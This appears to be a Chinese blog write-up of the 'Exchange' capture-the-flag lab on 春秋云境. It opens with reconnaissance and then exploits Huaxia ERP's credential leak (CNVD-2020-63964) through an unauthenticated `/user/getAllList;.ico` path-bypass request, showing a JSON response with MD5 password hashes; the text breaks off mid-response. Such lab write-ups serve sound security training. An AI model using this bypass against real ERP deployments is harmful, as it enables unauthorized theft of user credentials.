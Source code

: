 ```yaml
---
layout: post
title: Exchange - 春秋云境
category: [春秋云境]
tags: [active directory pentesting, microsoft exchange server, acl abuse]
---
```


![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/9badaf9ee65668bd.png)

靶标介绍：

Exchange 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 Flag，分布于不同的靶机。

| 内网地址    | Host or FQDN                | 简要描述                             |
| ----------- | --------------------------- | ------------------------------------ |
| 172.22.3.12 | iZ8vbhidac6emrzabcvappZ     | 外网华夏 (Lumia) ERP                 |
| 172.22.3.9  | XIAORANG-EXC01.xiaorang.lab | Microsoft Exchange Server 邮件服务器 |
| 172.22.3.26 | XIAORANG-PC.xiaorang.lab    |                                      |
| 172.22.3.2  | XIAORANG-WIN16.xiaorang.lab | 域控制器                             |

## 外网信息探测

80 端口：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/4cb47bdbb8c74b55.png)

8000 端口，发现华夏 ERP V2.3 后台登录界面：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/46f28e6c4a67e65b.png)

## 华夏 ERP 账号密码泄露

存在华夏 ERP 账号密码泄露（CNVD-2020-63964），访问未授权接口 `/user/getAllList;.ico` 获取所有用户的凭据：

```json
{
  "code": 200,
  "data": {
    "userList": [
      {
        "id": 63,
        "username": "季圣华",
        "loginName": "jsh",
        "password": "e10adc3949ba59abbe56e057f20f883e",
        "position": "",
        "department": null,
        "email": "",
        "phonenum": "",
        "ismanager": 1,
        "isystem": 1,
        "status": 0,
        "description": "",
        "remark": null,
        "tenantId": 63
      },
      {
        "id": 120,
        "username": "管理员",
        "loginName": "admin",
        "password": "e10adc3949ba59abbe56e057f20f883e",
```